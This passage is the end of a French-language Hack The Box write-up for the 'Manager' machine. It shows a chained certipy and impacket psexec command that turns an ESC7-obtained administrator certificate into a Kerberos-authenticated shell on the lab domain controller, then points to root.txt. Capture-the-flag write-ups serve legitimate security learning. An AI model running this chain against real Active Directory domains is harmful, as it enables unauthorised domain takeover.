```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 && export KRB5CCNAME=administrator.ccache && python3 /usr/share/doc/python3-impacket/examples/psexec.py manager.htb/administrator@dc01 -k -no-pass -dc-ip 10.10.11.236 -target-ip 10.10.11.236
```

![ESC7-with-chained-commands](/images/HTB-Manager/CA-chain-cmds.png)

Le fichier `root.txt` se trouve à `c:\Users\Administrator\Desktop`

![root-flag](/images/HTB-Manager/root-flag.png)

C'est tout pour cette machine, j'espère que ce article vous aura été utile! Je compte explorer d'autres platformes de hacking bientôt telles que Hackviser et HackMyVM. Restez à l'écoute et n'hésitez pas à me contacter sur X à [@_KScorpio](https://twitter.com/_KScorpio).
